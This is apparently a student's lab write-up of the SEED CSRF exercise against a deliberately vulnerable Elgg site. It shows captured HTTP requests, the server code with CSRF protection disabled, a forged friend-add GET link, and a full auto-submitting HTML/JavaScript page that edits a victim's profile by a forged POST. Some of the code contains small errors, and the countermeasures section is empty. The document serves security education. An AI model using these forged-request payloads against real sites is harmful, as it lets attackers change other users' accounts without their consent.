





### Task1: CSRF Attack using GET Request

**Part 1: Investigation**

Using the Firefox-tool **LiveHTTPHeaders**, Boby is able to get the URL for adding a friend.

```http
GET /action/friends/add?friend=39&__elgg_ts=1508757630&__elgg_token=f35aa5585b7a4e749ae1fde51d98b33a HTTP/1.1	
```

The *__elgg_ts* and *__elgg_token* are part of a counter-measure for a **CSRF** attack. To make sure this countermeasure is not applied, we have to check to validation code server-side, which is located at:

```sh
/var/www/CSRF/elgg/engine/lib/actions.php	
```

Here we can look at the *action_gatekeeper* -function

```php
function action_gatekeeper($action) {

	//SEED:Modified to enable CSRF.
	//Comment the below return true statement to enable countermeasure.
	return true;

	if ($action === 'login') {
 ....       
```

 This confirms that the CSRF-protection is turned off. This means we can safely ignore the *__elgg_ts* and *__elgg_token*, for our URL. Since we want *Alice*(guid=39) to add Bob(guid=40), we have to change the *friend=39 -> friend=40*

```http
GET /action/friends/add?friend=40
// complete URL
http:/csrflabelgg.com/action/friends/add?friend40
```


**Part2: The attack**



*Picture*: Now we somehow have to get Alice to click on the link. Conveniently the *CSRF Lab site* has a built in messaging system for unfriended users to talk to each other



*Picture*: When Alice's clickes the Malicious link, a message appears in the top right corner, telling her that "Boby is added as a friend".

### Task2: CSRF Attack using POST Request

**Part1: Investigation**
To learn about how the POST Request has to be set up, we have to do a normal one, and study it's format, using **LiveHTTPHeaders**

```http
http://www.csrflabelgg.com/action/profile/edit

POST /action/profile/edit HTTP/1.1
Host: www.csrflabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) Gecko/20100101 Firefox/23.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.csrflabelgg.com/profile/alice/edit
Cookie: Elgg=lo9p8k56rur2sd668ft13pfr23
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 499
__elgg_token=f89aa6bc5fafa4225de41785cdfadd10&__elgg_ts=1508768255
&name=Alice
&description=%3Cp%3Ehei%3C%2Fp%3E&accesslevel%5Bdescription%5D=2
&briefdescription=&accesslevel%5Bbriefdescription%5D=2
&location=&accesslevel%5Blocation%5D=2
&interests=&accesslevel%5Binterests%5D=2
&skills=&accesslevel%5Bskills%5D=2
&contactemail=&accesslevel%5Bcontactemail%5D=2
&phone=&accesslevel%5Bphone%5D=2
&mobile=&accesslevel%5Bmobile%5D=2
&website=&accesslevel%5Bwebsite%5D=2
&twitter=&accesslevel%5Btwitter%5D=2
&guid=39
...
```

*Note*: Every profile page field is represented in the *request body*, with a corresponding *accesslevel*-attribute. The exception is *name* and *guid*, which does not have an *accesslevel*-attribute.
*Note2*: All *accesslevel*=2

Let's state the value of the present URL encoded characters

| URL Encoded | UTF-8 |
| ----------- | :---- |
| %5B         | [     |
| %5D         | ]     |
| %3C         | <     |
| %3E         | >     |
| %2f         | /     |

Using the code sample from the lab document we insert the desired values

```js
<html>
<body>
<h1>This page forges an HTTP POST Request</h1>
<script type="text/javascript">
var badstring = "I support SEED project!";
var url = "http://www.csrflabelgg.com/action/profile/edit";

window.addEventListener('load', function() {

    // Part1 - Configure fields
    var fields = "" + 
    "<input type='hidden' name='name' value='Boby'>" + 
    "<input type='hidden' name='description' value='"+badstring+"'>" + 
    "<input type='hidden' name='accesslevel[description] value='2'>" + 
    "<input type='hidden' name='briefdescription' value=''>" + 
    "<input type='hidden' name='accesslevel[briefdescription]' value='2'>" + 
    "<input type='hidden' name='location' value=''>" + 
    "<input type='hidden' name='accesslevel[location]' value='2'>" + 
    "<input type='hidden' name='guid' value'39'>";

    // Part2 - Configure and launch <form> POST request
    var form = document.createElement("form");
    form.action = url;
    form.innerHTML = fields;
    form.target = "_self";
    form.method = "post";

    document.body.appendChild(form);
    form.submit();
});
</script>
</body>
</html>
```


**Part2: The attack**
An attack-server is provided on the following URL

```http
http://www.csrflabattacker.com
```

I can edit the */var/www/CSRF/Attacker/index.html* - file to inject my malicious code.

Now I only have to make sure **Boby** clicks the link.


*Picture*: **Alice** masterfullly crafts an irresistable message, which **Boby** just has to click. 



*Picture*: I am observing that the form POST happens over and over again in a loop. 
I do not understand why this is happening.



*Picture*: The text is properly posted to the profile, but it is posted as private. Even though I am posting with accesslevel[description]=2. Private should have been accesslevel[description]=0.

**UPDATE**! Found the fix

```js
"<input type='hidden' name='guid' value'39'>" // Wrong Alice's guid
// to
"<input type='hidden' name='guid' value'40'>"; // Changed to Boby's guid
```

I had put Alice's guid in the form which was meant for Boby.
Simply changing it to value='40', made the attack working correctly.

**Part 3: Questions**

***Question 1***: How can *Alice* find *Boby's* user id? 
*Answer*: She can try to send him a message, and then monitor the Request sent

```http
http://www.csrflabelgg.com/messages/compose?send_to=40*
```

*Note*: *Alice's* has clicked "send message" on *Boby's* profile, and can easily spot that his *guid=40*.

***Question 2*** :  Can *Alice* find the *guid* of anyone that visits her, without knowing about them before hand.
*Answer*: One possible solution I can think of:

1. *Alice* does not need to know their *guid*, to make them add her as a friend, if we remember from *task1*

   ```http
   GET /action/friends/add?friend=39 //  39 is Alice's guid
   ```

2. Once she has them added, she can lookup her newest friends in the news feed.

3. Trying to send a message to this friend now, will reveal his *guid*.

### Task 3: Implementing Countermeasures for Elgg

